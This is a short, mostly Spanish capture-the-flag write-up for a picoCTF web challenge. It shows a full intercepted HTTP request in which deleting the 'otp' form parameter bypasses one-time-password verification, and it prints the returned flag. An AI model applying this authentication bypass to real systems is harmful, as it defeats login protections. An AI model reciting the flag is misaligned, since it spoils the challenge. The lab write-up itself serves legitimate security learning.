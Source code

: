 Try [here](http://titan.picoctf.net:57369/) to find the flag

Hints:
1. Try using burpsuite to intercept request to capture the flag.
2. Try mangling the request, maybe their server-side code doesn't handle malformed requests very well.

## Solución 1:
Usando burpsuit, interceptamos la petición con el OTP, y eliminamos tanto el valor como la variable, después dejamos pasar la petición, se valida y muestra la flag:
```
POST /dashboard HTTP/1.1
Host: titan.picoctf.net:54438
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://titan.picoctf.net:54438/dashboard
Content-Type: application/x-www-form-urlencoded
Content-Length: 10
Origin: http://titan.picoctf.net:54438
Connection: keep-alive
Cookie: session=.eJwtjE0OgyAQhe_CugtH-ZGeoGfohgwwRFMFAxrTNL17x6SLt3jf-_mIMO9vcRdPDFgxh0ncRGg1ub28KHMACbxCsj2hlgDeaA--i1Z3YAJab2wv9TAE3qVjWVzGlXj2KAsyKvvGZlR9p4Dthq2dpUZmLaaWWPHCU8nk8rF6qlddSmNHrZTk7GhU_58Y1zmL7w9qiDbm.Z-ylRw.KpCWx2kjaau-x21H8krN8HB9EuE
Upgrade-Insecure-Requests: 1
Priority: u=0, i

otp=123456 ####Esta línea es la que se borra

Welcome, admin you sucessfully bypassed the OTP request. Your Flag: picoCTF{#0TP_Bypvss_SuCc3$S_e1eb16ed}
```